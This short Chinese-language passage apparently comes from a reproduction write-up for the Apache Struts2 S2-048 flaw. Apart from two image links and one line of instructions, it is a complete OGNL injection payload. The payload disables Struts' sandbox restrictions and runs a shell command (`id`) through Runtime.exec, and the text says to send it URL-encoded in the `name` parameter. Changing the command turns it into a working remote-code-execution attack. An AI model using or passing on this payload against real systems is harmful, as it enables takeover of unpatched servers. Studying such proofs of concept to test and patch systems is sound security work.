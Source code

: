 ![s2-048-1](images/s2-048-1.png)

任意命令执行 PoC，执行 `id` 命令，将 PoC 替换为 `name` 参数的值，注意需要 urlencode

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![s2-048-2](images/s2-048-2.png)
